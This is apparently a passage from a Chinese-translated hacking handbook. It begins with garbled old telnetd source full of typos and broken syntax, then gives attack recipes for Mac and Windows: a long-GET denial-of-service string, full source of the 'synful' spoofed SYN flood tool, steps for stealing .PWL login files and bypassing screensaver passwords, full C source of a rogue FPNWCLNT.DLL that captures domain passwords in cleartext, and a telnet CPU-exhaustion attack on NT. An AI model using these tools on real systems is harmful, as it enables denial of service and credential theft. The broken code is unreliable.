int  s;  /* 套接字编号 */
{
	static struct timeval timeout = {  0  };
	fd_set			excepts;
	int value;

	do {
		FD_ZERO(&excepts);
		FD_SET(s, &excepts);
		value = select(s+1, (fd_set *)0, (fd_set *)0, &excepts, &timeout);
	} while ((value == -1) && (errno == EINTR));

	if (value < 0) {
		fatalperror(pty, "select", errno);
	}
	if (FD_ISSET(s, &excepts)) {
		return 1;
	} else {
		return 0;
	}
}
```

### 主循环

```c
/*
 * 主循环。从 pty 和网络选择数据，
 * 并将数据交给 telnet 接收器有限状态机。
 */
telnet(f, p)
{
	int on = 1;
	char hostname[MAXHOSTNAMELEN];

	ioctl(f, FIONBIO, &on);
	ioctl(p, FIONBIO, &on);
#ifdef	defined(SO_OOBINLINE)
	setsockopt(net, SOL_SOCKET, SO_OOBINLINE, &on, sizeof on);
#endif	/* defined(SO_OOBINLINE) */
	signal(SIGTSTP, SIG_IGN);
	signal(SIGTTIN, SIG_IGN);
	signal(SIGTTOU, SIG_IGN);
	signal(SIGCHLD, cleanup);
	setpgrp(0, 0);

	/*
	* 请求执行远程回显并抑制 Go-Ahead。
	*/
	if (!myopts[TELOPT_ECHO]) {
		dooption (TELOPT_ECHO);
	}
	if (!myopts[TELOPT_SGA]) {
		dooption (TELOPT_SGA);
	}

	/*
	 * 客户端是否为 4.2（非 4.3）系统？我们需要知道这一点，
	 * 因为 4.2 客户端无法处理 TCP 紧急数据。
	 * 为了确定，我们发送 "DO ECHO"。如果远程系统
	 * 回答 "WILL ECHO"，则它很可能是 4.2 客户端，我们记录
	 * 这一事实（"WILL ECHO" ==> 客户端将回显我们（服务器）发送给它的内容；
	 * 它并不意味着客户端将回显终端输入）。
	 */
	sprintf (nfrontp, doopt, TELOPT_ECHO);
	nfrontp += sizeof doopt -2;
	isoopts[TELOPT_ECHO] = OPT_YES_BUT_ALWAYS_LOOK;

	/*
	 * 显示 getty 从未提供的横幅。
	 *
	 * 横幅包含一些空字符（用于 TELNET CR 消歧），
	 * 因此我们必须做得稍微复杂一些。
	 */
	gethostname (hostname, sizeof (hostname));

	bcopy (BANNER1, nfrontp, sizeof BANNER1 -1);
	nfrontp += sizeof BANNER1 - 1;
	bcopy (hostname, nfrontp, strlen(hostname));
	nfrontp += strlen(hostname);
	bcopy (BANNER2, nfrontp, sizeof BANNER2 -1);
	nfrontp += sizeof BANNER2 - 1;

	/*
	 * 调用一次 telrcv() 以获取在终端类型协商
	 * 期间接收到的任何数据。
	 */
	telrcv();

	for (;;) {
		fd_set ibits, obits, xbits;
		register int c;

		if (ncc < 0 && pcc < 0)
			break;
```


```c
FD_ZERO(&ibits);
FD_ZERO(&obits);

FD_ZERO(&xbits);
/*
 * Never look for input if there's still
 * stuff in the corresponding output buffer
 */
if (nfrontp - pbackp || pcc > 0) {
    FD_SET(f, &obits);
} else {
    FD_SET(p, &ibits);
}
if (pfrontp - pbackp || ncc > 0) {
    FD_SET(p, &obits);
} else {
    FD_SET(f, &ibits);
}
if (!SYNChing) {
    FD_SET(f, &xbits);
}
if ((c = select(16, &ibits, &obits, &xbits,
           (struct timeval *)0)) < 1) {
    if (c == -1) {
        if (errno == EINTR) {
            continue;
        }
    }
    sleep(5);
    continue;
}

/*
 * Any urgent data?
 */
if (FD_ISSET(net, &xbits)) {
    SYNChing = 1;
}

/*
 * Something to read from the network...
 */
if (FD_ISSET(net, &ibits)) {
#if !defined(SO_OOBINLINE)
/*
 * In 4.2 (and 4.3 beta) systems, the
 * OOB indication and data handling in the kernel
 * is such that if two separate TCP Urgent requests
 * come in, one byte of TCP data will be overloaded.
 * This is fatal for telnet, but we try to live
 * with it.
 *
 * In addition, in 4.2 (and ...), a special protocol
 * is needed to pick up the TCP Urgent data in
 * the correct sequence.
 *
 * What we do is: If we think we are in urgent
 * mode, we look to see if we are "at the mark".
 * If we are, we do an OOB receive. If we run
 * this twice, we will do the OOB receive twice,
 * but the second will fail, since the second
 * time we were "at the mark," but there wasn't
 * any data there (the kernel doesn't reset
 * "at the mark" until we do a normal read).
 * Once we've read the OOB data, we go ahead
 * and do normal reads.
 *
 * There is also another problem, which is that
 * since the OOB byte we read doesn't put us
 * out of OOB state, and since that byte is most
 * likely the TELNET DM (data mark), we would
 * stay in the TELNET SYNCH (SYNCHing) state.
 * So, clocks to the rescue. If we've "just"
 * received a DM, then we test for the
 * presence of OOB data when the receive OOB
 * fails (and AFTER we did the normal mode read
 * to clear "at the mark").
 */
if (SYNCHing) {
    int atmark;

    ioctl(net, SIOCATMARK, (char *)&atmark);
    if (atmark) {
        ncc = recv(net, netibuf, sizeof (netibuf), MSG_OOB);
        if ((ncc == -1) && (errno == EINVAL)) {
            ncc = read(net, netibuf, sizeof (netibuf));
            if (sequenceIs(didnetreceive, gotDM)) {
                SYNCHing = stilloob(net);
            }
        }
    } else {
        ncc = read(net, netibuf, sizeof (netibuf));
    }
} else {
    ncc = read(net, netibuf, sizeof (netibuf));
}
settimer(didnetreceive);
#else /* !defined(SO_OOBINLINE) */
    ncc = read(net, netibuf, sizeof (netibuf));
#endif /* !defined(SO_OOBINLINE) */
    if (ncc < 0 && (
        (errno == EWOULDBLOCK) ||
        (errno == EHOSTUNREACH) || /*icmp stuff of no interest*/
        (errno == ENETUNREACH)    /*icmp stuff of no interest*/
        ))
        ncc = 0;
    else {   /*disconnect on reset though!*/
        if (ncc <= 0) {
            break;
        }
        netip = netibuf;
    }
}

/*
 * Something to read from the pty...
 */
if (FD_ISSET(p, &ibits)) {
    pcc = read(p, ptyibuf, BUFSIZ);
    if (pcc < 0 && errno == EWOULDBLOCK)
        pcc = 0;
    else {
        if (pcc <= 0)
            break;
        ptyip = ptyibuf;
    }
}

while (pcc > 0) {
    if ((&netobuf[BUFSIZ] - nfrontp) < 2)
        break;
    c = *ptyip++ & 0377, pcc--;
    if (c == IAC)
        *nfrontp++ = c;
    *nfrontp++ = c;
    if ((c == '\r') && (myopts[TELOPT_BINARY] == OPT_NO)) {
        if (pcc > 0 && (*ptyip & 0377) == '\n') {
            *nfrontp++ = *ptyip++ & 0377;
            pcc--;
        }
        else
            *nfrontp++ = '\0';
    }
}
if (FD_ISSET(f, &obits) && (nfrontp - nbackp) > 0)
    netflush();
if (ncc > 0)
    telrcv();
if (FD_ISSET(p, &obits) && (pfrontp - pbackp) > 0)
    ptyflush();
}
cleanup();
```

```c
/*
 * State for recv fsm
 */
#define TS_DATA   0   /* base state */
#define TS_IAC 1   /* look for double IAC's */
#define TS_CR 2   /* CR-LF ->\s CR */
#define TS_SB 3   /* throw away begin's... */
#define TS_SE 4   /* ... end's (suboption negotion) */
#define TS_WILL 5   /* will option negotion */
#define TS_WONT 6   /* wont */
#define TS_DO 7   /* do */
#define TS_DONT 8   /* dont */

telrcv()
{
    register int c;
    static int state = TS_DATA;

    while (ncc > 0) {
        if ((!ptyobuf[BUFSIZ] - pfrontp) < 2)
            return;
        c = *netip++ & 0377, ncc--;
        switch (state) {

            case TS_CR:
                state = TS_DATA;
                /* Strip off \n or \0 after a \r */
                if ((c == 0) || (c == '\n')) {
                    break;
                }
                /* FALL THROUGH */

            case TS_DATA:
                if (c == IAC) {
                    state = TS_IAC;
                    break;
                }
                if (inter > 0)
                    break;
                /*
                 * We map \r\n ==> \r, since
                 * We now map \r\n ==> \r for pragmatic reasons.
                 * Many client implementations send \r\n when
                 * the user hits the CarriageReturn key.
                 *
                 * We USED to map \r\n ==> \n, since \r\n says
                 * that we want to be in column 1 of the next
                 * line.
                 */
                if ( c == '\r' && (myopts[TELOPT_BINARY] == OPT_NO)) {

                    state = TS_CR;
                }
                *pfrontp++ = c;
                break;

            case TS_IAC:
                switch (c) {

/*
 * Send the process on the pty side an
 * interrupt.  Do this with a NULL or
 * interrupt char; depending on the tty mode.
 */
                case IP:
                    interrupt();
                    break;

                case BREAK:
                    sendbrk();
                    break;

/*
 * Are You There?
 */
                case AYT:
                    strcpy(nfrontp, "\r\n[Yes]\r\n");
                    nfrontp += 9;
                    break;

/*
 * Abort Output
 */
                case AO: {
                    struct lchars tmplc;

                    ptyflush(); /* half-hearted */
                    ioctl(pty, TIOCGLTC, &tmplc);
                    if (tmplc.t_flushe != '\377') {
                        *pfrontp++ = tmplc.t_flushe;
                    }
                    netclear(); /* clear buffer back */
                    *nfrontp++ = IAC;
                    *nfrontp++ = DM;
                    neturg = nfrontp-1; /* off by one XXX */
                    break;
                }

/*
 * Erase Character and
 * Erase Line
 */
                case EC:
                case EL: {
                    struct sgtyb b;
                    char ch;

                    ptyflush(); /* half-hearted */
                    ioctl(pty, TIOCGETP, &b);
                    ch = (c == EC) ?
                        b.sg_erase : b.sg_kill;
                    if (ch != '\377') {
                        *pfrontp++ = ch;
                    }
                    break;
                }

/*
 * Check for urgent data...
 */
                case DM:
                    SYNChing = stilloob(net);
                    settimer(gotDM);
                    break;

/*
 * Begin option subnegotation...
 */
                case SB:
                    state = TS_SB;
                    continue;

                case WILL:
                    state = TS_WILL;
                    continue;

                case WONT:
                    state = TS_WONT;
                    continue;

                case DO:
                    state = TS_DO;
                    continue;

                case DONT:
                    state = TS_DONT;
                    continue;

                case IAC:
                    *pfrontp++ = c;
                    break;
                }
                state = TS_DATA;
                break;

            case TS_SB:
                if (c == IAC) {
                    state = TS_SE;
                } else {
                    SB_ACCUM(c);
                }
                break;

            case TS_SE:
                if (c != SE) {
                    if (c != IAC) {
                        SB_ACCUM(IAC);
                    }
                    SB_ACCUM(c);
                    state = TS_SB;
                } else {
                    SB_TERM();
                    suboption();    /* handle sub-option */
                    state = TS_DATA;
                }
                break;

            case TS_WILL:
                if (hisopts[c] != OPT_YES)
                    willoption(c);
                state = TS_DATA;
                continue;

            case TS_WONT:
                if (hisopts[c] != OPT_NO)
                    wontoption(c);
                state = TS_DATA;
                continue;

            case TS_DO:
                if (myopts[c] != OPT_YES)
                    dooption(c);
                state = TS_DATA;
                continue;

            case TS_DONT:
                if (myopts[c] != OPT_NO) {
                    dontoption(c);
                }
                state = TS_DATA;

                continue;

            default:
                printf("telnetd: panic state=%d\n", state);
                exit(1);
        }
    }
}

willoption(option)
int option;
{
    char *fmt;

    switch (option) {

        case TEOPT_BINARY:
            mode (RAW, 0);
            fmt = doopt;
            break;
        case TELOPT_ECHO:
            not42 = 0;         /* looks like a 4.2 system */
            /*
             * Now, in a 4.2 system, to break them out of ECHOing
             * (to the terminal) mode, we need to send a "WILL ECHO".
             * Kludge upon kludge!
             */
            if (myopts[TELOPT_ECHO] == OPT_YES) {
                dooption(TELOPT_ECHO);
            }
            fmt = dont;
            break;
        case TELOPT_TTYPE:
            setterter (ttypeopt);
            if (hisopts[TELOPT_TTYPE] == OPT_YES_BUT_ALWAYS_LOOK) {
                hisopts[TELOPT_TTYPE] = OPT_YES;
                return;
            }
            fmt = doopt;
            break;
        case TELOPT_SGA:
            fmt = doopt;
            break;
        case TELOPT_TM:
            fmt = dont;
            break;
        default:
            fmt = dont;
            break;
    }
    if (fmt == doopt) {
        hisopts[option] = OPT_YES;
    } else {
        hisopts[option] = OPT_NO;
    }
    sprintf(nfrontp, fmt, option);
    nfrontp += sizeof (dont) - 2;
}

woptoption(option)
int option;
{
    char  *fmt;
    switch (option) {
        case TELOPT_ECHO:
```


```c
not42 = 1; /* 似乎不是 4.2 系统 */
break;

case TELOPT_BINARY:
mode(0, RAW);
break;

case TELOPT_TTYPE:
settimer(tttypeopt);
break;
}

fmt = dont;
hisopts[option] = OPT_NO;
sprintf(nfrontp, fmt, option);
nfrontp += sizeof (doopt) - 2;
}

dooption(option)
int option;
{
char *fmt;

switch (option) {
case TELOPT_TM:
fmt = wont;
break;

case TELOPT_ECHO:
mode (ECHO | CRMOD, 0);
fmt = will;
break;

case TELOPT_BINARY:
mode(RAW, 0);
fmt = will;
break;

case TELOPT_SGA:
fmt = will;
break;

default:
fmt = wont;
break;
}
if (fmt == will) {
myopts[option] = OPT_YES;
} else {
myopts[option] = OPT_NO;
}
sprintf(nfrontp, fmt, option);
nfrontp += sizeof (doopt) - 2;
}

doption(option)
int option;
{
    char *fmt;
    
    switch (option) {
case TELOPT_ECHO:
/*
 * 我们应当停止回显，因为客户端将会执行此操作，
 * 但保持 CR 映射，因为 CR-LF 将被映射为 CR。
*/
mode(0, ECHO);
fmt = wont;
break;

default:
fmt = wont;
break;
    }

    if (fmt == wont) {
myopts[option] = OPT_NO;
} else {

myopts[option] = OPT_YES;
}
    sprintf(nfrontp, fmt, option);
    nfrontp += sizeof (wont) - 2;
}

/*
 * suboption()
 *
 * 查看子选项缓冲区，并尽量为对端提供帮助。
 *
 * 目前我们识别以下选项：
 *
 * 终端类型是
*/

suboption()
{
    switch (SB_GET()) {
case TELOPT_TTYPE: {    /* 太棒了！ */
static char terminalname[5+41] = "TERM";

settimer(ttypesubopt);

if (SB_GET() != TELQUAL_IS) {
	return;   /* ??? XXX 但这是最健壮的 */
}

terminaltype = terminalname+strlen(terminalname);
while ((terminaltype < (terminalname + sizeof terminalname-1)) &&
		   !SB_EOF()) {
	register int c;

	c = SB_GET();
	if (isupper(c)) {
		c = tolower(c);
	}
	*terminaltype++ = c;   /* 累积名称 */
}
*terminaltype = 0;
terminaltype = terminalname;
break;

}

	default:
		;
}

mode(on, off)
	int on, off;
{
	struct sgttyb b;

	ptyflush();
	ioctl(pty, TIOCGGETP, &b);
	b.sg_flags |= on;
	b.sg_flags &= ~off;
	ioctl(pty, TIOCSETP, &b);
}

/*
 * 向 pty 另一侧的进程发送中断信号。
 * 如果处于原始模式，仅写入 NULL；
 * 否则，写入中断字符。
 */
interrupt()
{
	struct sgttyb b;
	struct tchars tchars;

	ptyflush();   /* 半心半意 */
	ioctl(pty, TIOCGGETP, &b);
	if (b.sg_flags & RAW) {
		*pfrontp++ = '\0';
		return;
	}
*pfrontp++ = ioctl(pty, TIOCGETC, &tchars) < 0 ?
    '\177' : tchars.t_intrc;
}

/*
 * 向 pty 另一侧的进程发送退出信号。
 * 如果处于原始模式，仅写入 NULL；
 * 否则，写入退出字符。
 */
sendbrk()
{
    struct sgttyb b;
    struct tchars tchars;

    ptyflush();  /* 半心半意 */
    ioctl(pty, TIOCGETP, &b);
    if (b.sg_flags & RAW) {
        *pfrontp++ = '\0';
        return;
    }
    *pfrontp++ = ioctl(pty, TIOCGETC, &tchars) < 0 ?
    '\034' : tchars.t_quitc;
}

ptyflush()
{
    int n;

    if ((n = pfrontp - pbackp) > 0)
        n = write(pty, pbackp, n);
    if (n < 0)
        return;
    pbackp += n;
    if (pbackp == pfrontp)
        pbackp = pfrontp = ptyobuf;
}

/*
 * nextitem()
 *
 * 返回 TELNET 数据流中下一个“项”的地址。
 * 如果当前地址是用户数据字符，则返回下一个字符的地址；
 * 如果当前地址是 TELNET IAC（“我是一个命令”）
 * 字符，则返回紧随 TELNET 命令之后的字符的地址。
 */
char *
nextitem(current)
char    *current;
{
        if ((*current&0xff) != IAC) {
return current+1;
}
switch (* (current+1) & 0xff) {
case DO:
case DONT:
case WILL:
case WONT:
return current+3;
case SB:       /* 循环查找 SE */
{
register char *look = current+2;

for (;;) {
if ((*look++ & 0xff) == IAC) {
if ((*look++ & 0xff) == SE) {
return look;
}
}
}
}
default:
return current+2;
}
}

/*
* netclear()
*
* 我们即将执行 TELNET SYNCH 操作。清除
* 到网络的路径。
*
* 由于我们可能已经向网络发送了之前 TELNET 命令
* 的第一个字节，情况有些棘手。
* 因此，我们必须从网络缓冲区开始扫描，
* 直到我们到达想要的位置。
*
* 我们操作的一个副作用（为了保持简单）
* 是清除紧急数据指针。主要调用者
* 无论如何都应在调用我们之后设置紧急数据指针。
*/
netclear()
{
register char *thisitem, *next;
char *good;
#define  wewant(p) ((nfrontp > p) && ((*p&0xff) == IAC) && \
((*p+1)&0xff) != EC) && ((*p+1) &0xff) != EL))

thisitem = netobuf;

while ((next = nextitem(thisitem)) <= nbackp) {
thisitem = next;
} 

/* 现在，thisitem 位于边界之前/边界处。 */ 

good = netobuf; /* 正常字节存放的位置 */ 

while (nfrontp > thisitem) { 
if (ewant(thisitem)) { 
int length; 

next = thisitem; 
do { 
next = nextitem(next); 
} while (ewant(next) && (nfrontp > next)); 

length = next-thisitem; 
bcopy(thisitem, good, length); 
good += length; 
thisitem = next; 
} else { 
thisitem = nextitem(thisitem); 
} 
} 

nbackp = netobuf; 
nfrontp = good; /* 下一个要发送的字节 */ 
neturg = 0; 
} 

/* 
* netflush 
* 尽可能向网络发送数据， 
* 并处理紧急数据请求。 
*/ 

netflush() 
{
int n; 

if ((n = nfrontp - nbackp) > 0) { 
/* 
* 如果没有紧急数据，或者对端似乎是旧的 
* 4.2 客户端（因此无法处理 TCP 紧急数据）， 
* 则以非 OOB 模式写入整个缓冲区。 
*/ 
if (neturg == 0) || (not42 == 0)) { 
n = write(net, nbackp, n); /* 正常写入 */ 
} else {
n = neturg - nbackp; 
/* 
* 在 4.2（和 4.3）系统中，关于 sendOOB 操作 
* 中哪一个是“OOB”数据存在一些疑问。 
* 为了保持兼容性，我们只发送一个 
* 带外字节，即我们认为应该是 OOB 的那个字节（尽管
*
* 我们更倾向于 TCP 的紧急数据理念，
* 而不是 UNIX 的 OOB 数据理念）。
*/
if (n > 1) {
    n = send(net, nbackp, n-1, 0); /* 单独发送紧急数据 */
} else {
    n = send(net, nbackp, n, MSG_OOB); /* 紧急数据 */
}

}

if (n < 0) {
if (errno == EWOULDBLOCK)
    return;
/* 应该把这个家伙干掉... */
return;
}
    nbackp += n;
    if (nbackp >= neturg) {
        neturg = 0;
    }
    if (nbackp == nfrontp) {
        nbackp = nfrontp = netobuf;
    }
}
}

cleanup()
{
    vhangup();  /* XXX */
    shutdown(net, 2);
    exit(1);
}
```

# Macintosh

苹果 Macintosh，即 Mac（[www.apple.com](https://www.apple.com)），在配有 X\_Server 的情况下，是一款极具吸引力的互联网和/或工作组服务器。核心操作系统是基于开放标准构建的；因此，开源软件社区为其发展做出了贡献。该操作系统被称为 Darwin，它为互联网、发布和关键任务服务器应用提供了所需的性能更高的可靠性。借助新的 3D 技术 OpenGL，Mac 将业界支持最广泛的 2D 和 3D 图形 API 提升到了全新的高度。

# 责任

拒绝服务攻击

**概要：** 切换 Mac 网络共享功能的远程攻击。

**入侵状态：** 配置控制。

**漏洞：** MacOS 8x。

**突破：** 发送

```
GET aaaa[... x4000... ]aaaaa HTTP/1.0
```

到 80 端口，然后按两次回车键，即可切换 Mac 网络共享功能。

# 拒绝服务攻击

**概要：** 一种远程 SYN 攻击，锁定所有连接，直到内部重置。

**入侵状态：** 严重拥塞。

**漏洞：** 所有版本。

**突破：** *Synfltd.c*。

# Synfltd.c

```c
#include <Inc Mods>
void dosynpacket(unsigned int, unsigned int, unsigned short, unsigned short);
unsigned short in_cksum(unsigned short *, int);
unsigned int host2ip(char *);
main(int argc, char **argv)
{
   unsigned int srchost;
   char tmpsrchost[12];
   int i,s1,s2,s3,s4;
   unsigned int dsthost;
   unsigned short port=80;
   unsigned short random_port;
   unsigned int number=1000;
   printf("synful [It's so synful to send those spoofed SYN's\n]");
   printf("Hacked out by \\\\StoRm\\\\\n");
   if(argc < 2)
   {
      printf("syntax: synful targetIP\n", argv[0]);
      exit(0);
   }
   srand();
   dsthost = host2ip(argv[1]);
   if(argc >= 3) port = atoi(argv[2]);
   if(argc >= 4) number = atoi(argv[3]);
   if(port == 0) port = 80;
   if(number == 0) number = 1000;
   printf("Destination  : %s\n",argv[1]);
   printf("Port     : %u\n",port);
   printf("NumberOfTimes: %d\n", number);
   for(i=0;i < number;i++)
   {
      s1 = 1+(int) (255.0*rand()/(RAND_MAX+1.0));
      s2 = 1+(int) (255.0*rand()/(RAND_MAX+1.0));
      s3 = 1+(int) (255.0*rand()/(RAND_MAX+1.0));
      s4 = 1+(int) (255.0*rand()/(RAND_MAX+1.0));
      random_port = 1+(int) (10000.0*rand()/(RAND_MAX+1.0));
      sprintf(tmpsrchost, "%d.%d.%d.%d", s1, s2, s3, s4);
```


```c
        printf("Being Synful to %s at port %u from %s port %u\n", argv[1],
        port, tmpsrchost, random_port);
        srchost = host2ip(tmpsrchost);
        dosynpacket(srchost, dsthost, port, random_port);
    }
}
void dosynpacket(unsigned int source_addr, unsigned int dest_addr,
    unsigned short short_dest_port, unsigned short ran_port) {
    struct send_tcp
    {
        struct iphdr ip;
        struct tcphdr tcp;
    } send_tcp;
    struct pseudo_header
    {
        unsigned int source_address;
        unsigned int dest_address;
        unsigned char placeholder;
        unsigned char protocol;
        unsigned short tcp_length;
        struct tcphdr tcp;
    } pseudo_header;
    int tcp_socket;
    struct sockaddr_in sin;
    int sinlen;
    send_tcp.ip.ihl = 5;
    send_tcp.ip.version = 4;
    send_tcp.ip.tos = 0;
    send_tcp.ip.tot_len = htons(40);
    send_tcp.ip.id = ran_port;
    send_tcp.ip.frag_off = 0;
    send_tcp.ip.ttl = 255;
    send_tcp.ip.protocol = IPPROTO_TCP;
    send_tcp.ip.check = 0;
    send_tcp.ip.saddr = source_addr;
    send_tcp.ip.daddr = dest_addr;
    send_tcp.tcp.source = ran_port;
    send_tcp.tcp.dest = htons(dest_port);
    send_tcp.tcp.seq = ran_port;
    send_tcp.tcp.ack_seq = 0;
    send_tcp.tcp.res1 = 0;
    send_tcp.tcp.doff = 5;
    send_tcp.tcp.fin = 0;
    send_tcp.tcp.syn = 1;
    send_tcp.tcp.rst = 0;
    send_tcp.tcp.psh = 0;
    send_tcp.tcp.ack = 0;
    send_tcp.tcp.urg = 0;
    send_tcp.tcp.res2 = 0;
    send_tcp.tcp.window = htons(512);
    send_tcp.tcp.check = 0;
    send_tcp.tcp.urg_ptr = 0;
    sin.sin_family = AF_INET;
    sin.sin_port = send_tcp.tcp.source;
    sin.sin_addr.s_addr = send_tcp.ip.daddr;
    tcp_socket = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
    if(tcp_socket < 0)
    {
        perror("socket");
        exit(1);
    }
    send_tcp.tcp.source++; send_tcp.ip.id++; send_tcp.tcp.seq++;
    send_tcp.tcp.check = 0; send_tcp.ip.check = 0;
    send_tcp.ip.check = in_cksum((unsigned short *) &send_tcp.ip, 20);
    pseudo_header.source_address = send_tcp.ip.saddr;
    pseudo_header.dest_address = send_tcp.ip.daddr;
    pseudo_header.placeholder = 0;
    pseudo_header.protocol = IPPROTO_TCP;
    pseudo_header.tcp_length = htons(20);
    bcopy((char *) &send_tcp.tcp, (char *) &pseudo_header.tcp, 20);
    send_tcp.tcp.check = in_cksum((unsigned short *) &pseudo_header, 32);
    sinlen = sizeof(sin);
    sendto(tcp_socket, &send_tcp, 40, 0, (struct sockaddr *) &sin, sinlen);
    close(tcp_socket);
}

unsigned short in_cksum(unsigned short *ptr, int nbytes)
{
    register long    sum;      /* assumes long == 32 bits */
    u_short      oddbyte;
    register u_shortanswer;        /* assumes u_short == 16 bits */
    sum = 0;
    while (nbytes > 1)  {
        sum += *ptr++;
        nbytes -= 2;
    }
    if (nbytes == 1) {
        oddbyte = 0;      /* make sure top half is zero */
        *((u_char *) &oddbyte) = *((u_char *)ptr);  /* one byte only */
        sum += oddbyte;
    }
    sum = (sum >> 16) + (sum & 0xffff);  /* add high-16 to low-16 */
    sum += (sum >> 16);     /* add carry */
    answer = ~sum;    /* ones-complement, then truncate to 16 bits */
    return(answer);
}

unsigned int host2ip(char *hostname)
{
    static struct in_addr i;
    struct hostent  *h;
    i.s_addr = inet_addr(hostname);
    if(i.s_addr == -1)
    {
        h = gethostbyname (hostname);
        if (h == NULL)
        {
            fprintf (stderr, "cant find %s!\n", hostname);
            exit(0);
        }
        bcopy(h->h_addr,  (char *)&i.s_addr, h->h_length);
    }
    return i.s_addr;
}
void inirand(void)
{
    struct timeval tv;
    gettimeofday(&tv,  (struct timezone *) NULL);
    srand(tv.tv_usec);
}
```

## Microsoft Windows

自1975年以来，比尔·盖茨在其公司微软（[www.microsoft.com](https://www.microsoft.com)）的推动下，监督了领先的Windows操作系统及软件的开发，主要面向个人电脑。经过指数级增长，这些产品如今遍布世界各地的家庭、学校和企业。截至1999年12月31日，微软在全球拥有34,571名员工，其中14,433人从事研发工作。

但Windows开发者一直专注于设计更多功能和系统控制，对安全问题的关注较少。结果是，大多数地下黑客专门针对Windows漏洞发起攻击。因此，本节专门探讨针对Windows系统的黑客攻击，包括3x、9x、9x千禧版、NT和2000版本。


> 虽然第8章中复习的许多黑客技术和程序可以应用于Windows操作系统，但本章将探讨专门的技术，从获取访问权限和控制权到引发广泛混乱。

- 弱点
- 密码破解
- 破解系统登录密码

**摘要：** 定位和操纵密码文件可以促进非法登录访问。

**黑客状态：** 未授权访问。


**图10.5** 搜索 .PWL 文件。

**漏洞：** Win 3x, 9x。

**入侵：** 最常见的黑客技术之一涉及操纵登录数据文件 `???PWL`，通常位于Windows目录中（见图10.5）。三个问号代表具有系统访问权限并与唯一配置文件关联的特定配置文件的实际登录用户名。

这种特定的入侵在旨在制造混乱的企业环境中很常见。在具有多个配置文件的系统上，攻击者只需将目标文件移动到临时目录，然后使用受害者的用户名（减去密码）登录。此时，数据被删除，桌面设置被修改，等等。当破坏完成后，攻击者恢复USERNAME.PWL文件并注销。攻击者还可以将文件复制到软盘，并使用第8章中描述的任意密码破解工具来破解密码。结果，系统可被远程控制的木马实现所访问，包括网络控制。针对单配置文件系统的替代攻击是，攻击者在启动时按F8绕过登录屏幕的密码提示，然后选择进入MS-DOS（#7）。

### 破解屏幕保护密码

**摘要：** 定位和操纵屏幕保护密码信息可以促进非法登录访问。

**黑客状态：** 未授权访问。

**漏洞：** Win 3x, 9x。

**入侵：** 通过修改与ScreenSaver\_Data字符串关联的数据，黑客可以更改屏幕保护密码以获得对系统的未授权访问。与此破解攻击相关的目标文件是：Win 3x的Control.INI和Win 9x的user.dat（位于/Windows目录中）。密码字符串后面的数据代表未加密ASCII值的十六进制数字。（若要复习十六进制转换，请参阅第6章，“黑客技术手册”。）

受雇于美国企业的黑客喜欢将这种利用更进一步，通过所谓的徽标改造让朋友和同事尴尬。正如所有Windows用户所知，每次Windows启动和关闭时，都会在后台加载和卸载程序和驱动程序的同时显示微软徽标。用户也熟知如何更改系统壁纸。这种特定的攻击涉及定制实际的系统徽标；需要遵循一系列非常简单的步骤：

1. 绕过屏幕保护密码或破解系统登录后，攻击者快速扫描并执行任何图形插图软件包，如Adobe Photoshop或画图。
2. 从插图程序中，攻击者打开“文件类型：所有文件”，并在根 \Windows 目录中查找任何 `logo*.sys` 文件。这是存储启动/关机时显示的微软图形徽标的地方。
3. 此时，攻击者只需修改 `Logow.sys` 文件，使其包含一些恶意短语或图形，然后将文件保存为新的自定义关机徽标。图10.6展示了已选择系统关机徽标。

### 嗅探密码文件

**摘要：** 传输一个伪的 .DLL 可以欺骗性地捕获明文密码。

**黑客状态：** 密码捕获。

**漏洞：** Win NT

**入侵：** 黑客将system32目录中的动态链接库（DLL）文件替换为渗透器，该渗透器以明文捕获来自域控制器的密码。通常在NetWare环境中运行并与注册表项 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` 关联的 `FPNWCLNT`，可以被操纵以与伪的 `FPNWCLNT.DLL` 通信密码（见图10.7）。

编译以下渗透器（FPNWCLNT.C）后，攻击者只需将文件重命名为 .DLL 扩展名，并将文件传输到主要域控制器的根 //system32 目录。代码可以进行修改。


**图10.6** Win 9x 关机徽标。


## 搜索注册表


**图 10.7** 搜索注册表。

修改为通过明文将密码存储在预定义文件中，例如 `C:\temp\pwdchange.out`，如下面摘录所示：

```c
fh = CreateFile("C:\temp\pwdchange.out",
fpnwclnt.c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

struct UNI_STRING {
USHORT len;
USHORT maxlen;
WCHAR *buff;
};
static HANDLE fh;

BOOL __stdcall InitializeChangeNotify ()
{
DWORD wrote;
fh = CreateFile("C:\temp\pwdchange.out",
GENERIC_WRITE,
FILE_SHARE_READ|FILE_SHARE_WRITE,
NULL,
CREATE_ALWAYS,
FILE_ATTRIBUTE_NORMAL|FILE_FLAG_WRITE_THROUGH,
NULL);
WriteFile(fh, "InitializeChangeNotify started\n", 31, &wrote, 0);
return TRUE;
}

LONG __stdcall PasswordChangeNotify (
struct UNI_STRING *user,
ULONG rid,
struct UNI_STRING *passwd
)
{
DWORD wrote;
WCHAR wbuf[200];
char buf[512];
char buf1[200];
DWORD len;

memcpy(wbuf, user->buff, user->len);
len = user->len/sizeof(WCHAR);
wbuf[len] = 0;
wcstombs(buf1, wbuf, 199);
sprintf(buf, "User = %s : ", buf1);
WriteFile(fh, buf, strlen(buf), &wrote, 0);

memcpy(wbuf, passwd->buff, passwd->len);
len = passwd->len/sizeof(WCHAR);
wbuf[len] = 0;
wcstombs(buf1, wbuf, 199);
sprintf(buf, "Password = %s : ", buf1);
WriteFile(fh, buf, strlen(buf), &wrote, 0);

sprintf(buf, "RID = %x\n", rid);
WriteFile(fh, buf, strlen(buf), &wrote, 0);

return 0L;
}
```

## 系统崩溃

### 严重的拒绝服务攻击

**概要：** 通过 Telnet 进行 ASCII 传输可能会使标准服务守护进程困惑，并导致严重拥堵。

**攻击状态：** 完全拒绝服务。

**漏洞：** Win NT。

**突破：** 黑客模拟简单的 Telnet 程序访问 53 和/或 1031 端口，导致 100% 的 CPU 利用率，拒绝所有客户端服务并要求重启系统。向具有活动端口 53 和/或 1031 的 NT 服务器发起 Telnet 连接并传输随机字符，可导致严重的 CPU 拥堵（如图 10.8 所示）。

这种特定的攻击已被列入“地下”隐蔽攻击列表，因为它被用于骚扰无数企业 Web 服务器，尤其是那些运行域名服务（DNS）的服务器。除了明显的拒绝服务（DoS）副作用外，该攻击还会导致系统日志文件填满数千条错误消息，如图 10.9 所示。

### 严重的拒绝服务攻击

